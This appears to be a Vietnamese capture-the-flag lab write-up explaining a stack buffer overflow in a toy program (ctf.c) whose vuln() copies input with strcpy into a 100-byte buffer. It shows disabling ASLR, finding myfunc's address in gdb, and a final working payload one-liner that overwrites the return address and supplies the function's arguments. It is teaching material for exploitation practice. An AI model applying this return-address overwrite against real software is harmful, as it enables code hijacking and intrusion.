 ![alt text](images/image-24.png)

Hàm vuln() sử dụng strcpy(buf,s) để sao chép đầu vào s vào mảng buf[100]. Tuy nhiên, hàm strcpy không kiểm tra đầu vào, nên nếu chuỗi s nhập hơn 100 ký tự, nó sẽ ghi đè lên các byte lân cận, gây ra buffer overflow

![alt text](images/image-25.png)

mục tiêu là đè địa chỉ trả về của hàm vuln thành địa chỉ của hàm myfunc thì mới có thể vào được hàm myfunc

Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên:

`sudo sysctl -w kernel.randomize_va_space=0`

![alt text](images/image-26.png)

biên dịch chương trình ctf.c

![alt text](images/image-27.png)

chạy gdb để xem địa chỉ của hàm myfunc:

![alt text](images/image-28.png)

=> Địa chỉ: 0x0804851b

=> chúng ta cần chèn 104 bytes + '\x1b\x85\x04\x08'

Stack sau khi đè lên giá trị trở về của hàm vuln():

![alt text](images/image-30.png)

Giờ để lấy được flag ta cần phải vượt qua các chướng ngại vật sau:

- flag1.txt chưa có => phải tạo ra 1 file flag1.txt bằng lệnh `touch flag1.txt`
  
  ![image](https://github.com/user-attachments/assets/59dfac7f-00b2-420a-8c50-831f97decfdb)

- 2 tham số p,q của hàm myfunc chưa có trong stack, vì thế ta đè tiếp biến ebp và giá trị trả về của hàm main thành các flag của p,q

![alt text](images/image-29.png)

- Thêm 4 bytes cho biến s
- 
=> Câu lệnh cuối cùng:

`./ctf.out $(python -c "print('a' * 104 + '\x1b\x85\x04\x08' + 'a'*4 + '\x11\x12\x08\x04' + '\x62\x42\x64\x44')")`

=> kết quả: 


  
![alt text](images/image-31.png)


